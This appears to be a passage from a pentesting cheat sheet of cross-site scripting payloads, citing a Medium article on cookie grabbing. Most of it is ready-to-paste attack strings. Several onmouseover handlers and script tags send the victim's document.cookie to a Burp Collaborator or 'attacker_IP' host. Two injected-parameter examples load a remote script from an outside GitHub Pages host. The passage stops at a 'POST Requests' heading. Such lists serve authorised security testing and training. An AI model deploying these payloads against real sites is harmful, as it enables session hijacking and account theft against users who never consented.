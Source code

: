 onmouseover:

```
onmouseover='document.location=%22https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie)
```

or

```
onmouseover='setTimeout(function()%7Bdocument.location=%22https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie);%7D,1)
```

or

```
onmouseover='document.write(%22<img src=https://<your_Burp_Collab>.burpcollaborator.net?%22.concat(document.cookie).concat(%22 />%22))
```

or

```
<script>
var i = new Image();
i.src="//<your_Burp_Collab>.burpcollaborator.net?q="+document.cookie;
</script>
```

XSS payload:

```
<script src=http://attacker_IP:5000/?c="+document.cookie;></script>
```

Or

```
<script type="text/javascript">document.location="http://attacker_IP:5000/?c="+document.cookie;</script>
```

- From <https://medium.com/@laur.telliskivi/pentesting-basics-cookie-grabber-xss-8b672e4738b2> 


### Other examples:

GET Requests (URL):

```
&vulnfield=test"><img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```
vulnfield=foobar'%3e <img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

POST Requests:
